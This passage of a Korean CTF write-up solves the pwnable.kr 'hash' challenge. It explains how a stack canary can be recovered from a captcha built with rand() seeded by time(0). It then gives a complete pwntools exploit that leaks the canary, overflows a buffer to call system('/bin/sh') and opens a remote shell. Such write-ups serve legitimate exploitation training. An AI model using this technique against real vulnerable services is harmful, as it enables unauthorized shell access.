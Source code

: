 ```c
  v1 = *MK_FP(__GS__, 20) ^ canary;
  return result;
}
```

얘는 아까 처음에 `captcha`를 만들어주는 함수인데, 왜그랬는지는 모르겠지만 `captcha`를 만들 때 `canary`를 사용한다(*정확히는 gs:0x14를 쓴거겠지,,*) 핵심만 말하면 처음에 `recv`로 받아놓은 `captcha` 값에 `random`으로 생성한 값을 더하고 빼주면 `canary`를 알아낼 수 있다. 



조금더 부연설명 해보자면, `captcha`를 만들 때 쓰이는 변수(v4~v10)들을 역으로 더하고 빼주면 `canary` 값만 남게된다(v7은 빼고, v9는 더하고... 이렇게 소거한다는 뜻)



v4부터 v10은 바로 위에를 보면 난수를 발생시켜 만든다. 그래서 처음에 `captcha`가 계속 바뀌었던 것이다. 그럼 어떻게 이 값들을 알아내냐? `main()`을 보면 난수를 발생시키는 **seed**를 time(0)으로 설정한다. 그렇기 때문에 바이너리를 실행시키는 시간만 안다면 **pwntool**에서 똑같이 난수를 발생시켜 더하고 빼면 된다.



---



# Exploit

```c
from pwn import *
from ctypes import *
from ctypes.util import find_library
import base64

system_addr = 0x08048880
bss = 0x0804b0e0

# using c-style random
c = CDLL(find_library('c'))
c.srand(c.time(0))

p = remote('pwnable.kr', 9002)

# pass main function & recv captcha
p.recvuntil('captcha : ')
captcha = p.recvline()[:-1]
p.sendline(captcha)

# leak canary
arr_random = list()
for i in range(8):
    arr_random.append(c.rand())

canary = (int(captcha) - arr_random[4] + arr_random[6] - arr_random[7] - arr_random[2] + arr_random[3] - arr_random[1] - arr_random[5]) & 0xffffffff

# exploit
payload = 'A' * 512
payload += p32(canary)
payload += 'A' * 12
payload += p32(system_addr)
payload += 'A' * 4
payload += p32(bss + len(base64.b64encode(payload)) + 4)
payload = base64.b64encode(payload)
payload += '/bin/sh\x00'

p.sendline(payload)
p.interactive()
```
